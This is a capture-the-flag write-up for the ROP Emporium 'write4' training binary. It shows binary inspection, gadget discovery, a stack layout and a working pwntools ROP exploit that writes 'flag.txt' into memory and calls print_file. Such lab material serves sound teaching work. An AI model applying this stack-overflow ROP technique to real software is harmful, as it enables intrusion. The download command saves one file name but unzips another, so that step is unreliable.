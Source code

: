 # ROP - Write4


## Description 

This challenge has been taken from https://ropemporium.com/challenge/write4.html.
This time the string ```cat flag.txt``` is not contained in the binary.
We're given a couple of hints: 
- there's a function ```print_file()``` which takes the filename string as the first argument;
- we need to search for a gadget which stores a value into the memory such as ```mov [reg], reg```.


## Explore the binary

Download the challenge:
```sh
curl --output split.zip https://ropemporium.com/binary/write4.zip
unzip write4.zip && rm write4.zip
```

Check the imported functions and those defined by the programmer as done in the previous challenges:

```sh
$ rabin2 -i write4 
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400500 GLOBAL FUNC       pwnme
2   0x00000000 GLOBAL FUNC       __libc_start_main
3   0x00000000 WEAK   NOTYPE     __gmon_start__
4   0x00400510 GLOBAL FUNC       print_file
```

```sh
$ rabin2 -qs write4 | grep -ve imp -e ' 0 ' 
0x00601038 1 completed.7698
0x00400617 17 usefulFunction
0x004006a0 2 __libc_csu_fini
0x004006b0 4 _IO_stdin_used
0x00400630 101 __libc_csu_init
0x00400550 2 _dl_relocate_static_pie
0x00400520 43 _start
0x00400607 16 main
```

```asm
pwndbg> disass usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400617 <+0>:     push   rbp
   0x0000000000400618 <+1>:     mov    rbp,rsp
   0x000000000040061b <+4>:     mov    edi,0x4006b4
   0x0000000000400620 <+9>:     call   0x400510 <print_file@plt>
   0x0000000000400625 <+14>:    nop
   0x0000000000400626 <+15>:    pop    rbp
   0x0000000000400627 <+16>:    ret    
End of assembler dump.
pwndbg> x/s 0x4006b4
0x4006b4:       "nonexistent"
```

Here it's clear that we need to insert the address of the stored string inside the edi register.

In order to find a place to store "flag.txt", ```readelf``` could be useful. Through this we're able to print the address of the binary sections and check whether they're writable or just readonly.

```sh
$ readelf --sections write4

There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.build-i NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007c  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043c  0000043c
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400450  00000450
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400470  00000470
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a0  000004a0
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d0  000004d0
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000182  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006a4  000006a4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006b0  000006b0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006c0  000006c0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400708  00000708
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f6  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001876
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

```.data``` is interesting, so we inspect its content:
```sh
$ objdump -s -j .data write4         

write4:     file format elf64-x86-64

Contents of section .data:
 601028 00000000 00000000 00000000 00000000  ................
 ```

Nothing's inside it, so we can insert the string from ```0x601028```.

Now use  ```ropper``` to search for a gadget similar to the one given as hint and another which pops rdi.

```asm
0x0000000000400628: mov qword ptr [r14], r15; ret;
0x0000000000400690: pop r14; pop r15; ret;
```
and 
```asm
0x0000000000400693: pop rdi; ret;
```
Great!

Now it is possible to build the rop chain. At the ret instruction in the pwnme function, the stack should be composed in this way:

```asm
|                    |
|                    |
|    p_gadget_2pop   |
|    p_string_addr   |
|     "flag.txt"     |
| p_gadget_load_addr |
|    p_gadget_rdi    |
|    p_string_addr   |
| p_call_print_file  |
|        ...         |
----------------------
          |
          V
|                    |
|                    |
| 0x0000000000400690 |
| 0x0000000000601028 |
|     "flag.txt"     |
| 0x0000000000400628 |
| 0x0000000000400693 |
| 0x0000000000601028 |
| 0x0000000000400620 |
|        ...         |
----------------------
        STACK
```

## Exploit

```python
import pwn

p = pwn.process("./write4") 

'''
    gadgets:
        - 0x0000000000400628: mov qword ptr [r14], r15; ret; 
        - 0x0000000000400690: pop r14; pop r15; ret; 
        - 0x0000000000400693: pop rdi; ret; 

    address to place the string: 0x00601028
    address of print_file function call: 0x00400620

    payload:
        [0x0000000000400690 * offset,
        0x00601028, 
        "flag.txt",
        0x0000000000400628,
        0x0000000000400693,
        0x00601028,
        0x00400620]        
'''

payload = b"A" * 40
payload += pwn.p64(0x0000000000400690)
payload += pwn.p64(0x00601028)
payload += b"flag.txt"
payload += pwn.p64(0x0000000000400628)
payload += pwn.p64(0x0000000000400693)
payload += pwn.p64(0x00601028)
payload += pwn.p64(0x00400620)

p.recvuntil('\n> ')
p.sendline(payload)
p.interactive()
```

